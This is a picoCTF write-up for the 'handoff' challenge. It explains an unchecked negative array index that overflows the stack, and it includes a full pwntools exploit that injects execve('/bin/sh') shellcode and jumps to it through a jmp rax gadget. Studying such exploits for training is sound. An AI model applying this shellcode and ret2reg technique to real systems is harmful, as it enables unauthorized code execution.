 ```yaml
---
title: handoff
category: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: picoCTF{REDACTED}
---
```

> No description.

by SkrubLawd

---

We are given a binary and the source code for it. The binary is a simple program that allows us to add recipients and send messages to them.

```c
else if (choice == 2) {
    choice = -1;
    puts("Which recipient would you like to send a message to?");
    if (scanf("%d", &choice) != 1) exit(0);
    getchar();

    if (choice >= total_entries) {
        puts("Invalid entry number");
        continue;
    }

    puts("What message would you like to send them?");
    fgets(entries[choice].msg, MSG_LEN, stdin);
}
```

In the `vuln` function, we can see that the program reads a message into the recipient's message buffer using `fgets`. The choice is not sanitized, so we can send a message to the recipient at index `-1`.

Where when we send a message to the recipient at index `-1`, the `RAX` register will be set to the address of the message buffer and after 40 bytes, the `RIP` will be overwritten. We can use [ret2reg](https://ir0nstone.gitbook.io/notes/binexp/stack/reliable-shellcode/ret2reg/using-ret2reg) method where we can jump to the `RAX` register which contains the shellcode.

```py
from pwn import *

binary = './handoff'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('shape-facility.picoctf.net', 54989)

def add_entry(name):
    r.sendlineafter(b'What option would you like to do?', b'1')
    r.sendlineafter(b'What\'s the new recipient\'s name: ', name)

def add_message(choice, message):
    r.sendlineafter(b'What option would you like to do?', b'2')
    r.sendlineafter(b'Which recipient would you like to send a message to?', choice)
    r.recvuntil(b'What message would you like to send them?')
    print(f'Len: {len(message)}')
    r.sendline(message)

def exit(feedback):
    r.sendlineafter(b'What option would you like to do?', b'3')
    r.sendlineafter(b'Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it:', feedback)

JMP_RAX = 0x000000000040116c

shellcode = asm('''
    mov rax, 0x3b
    mov rdi, 0x0068732f6e69622f
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
''')

payload = flat([
    shellcode.ljust(40, b"\00"),
    JMP_RAX,
])
add_message(b'-1', payload)
r.interactive()
```
